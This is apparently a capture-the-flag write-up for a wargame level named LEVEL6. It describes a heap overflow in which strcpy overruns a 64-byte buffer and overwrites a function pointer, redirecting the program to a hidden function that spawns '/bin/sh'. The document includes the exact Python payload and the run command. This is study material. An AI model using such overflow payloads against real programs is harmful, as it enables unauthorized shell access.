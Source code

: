 # LEVEL6

## EXPLANATIONS

### BINARY BEHAVIOR

- function `main`, `m` and `n`
  - n is never called
  - m is called through a function pointer stored in buf2
  - `main` function
    - allocates 2 heap buffers
      - one of 64 bytes
      - one of 4 bytes
    - `strcpy` argv[1] in buf1
    - makes function pointer point to `m`
  - `m` function
    - calls `puts("Nope")`
  - `n` function
    - calls `system("/bin/sh")`

### EXPLOIT STRATEGY

- Printing heap from buf1 addr, we see that buf2 is 72 bytes further in the heap addresses.
- As strcpy does not copy a given number of characters, we did a heap overflow to write address of n at buf2 heap memory location.
  - => argv1 is copied to buf1 which overflows into buf2

### RUN COMMAND

```
python -c "print('A' * 72 + '\x08\x04\x84\x54'[::-1])" > /tmp/argv1_string
/home/user/level6/level6 $(cat /tmp/argv1_string)
```
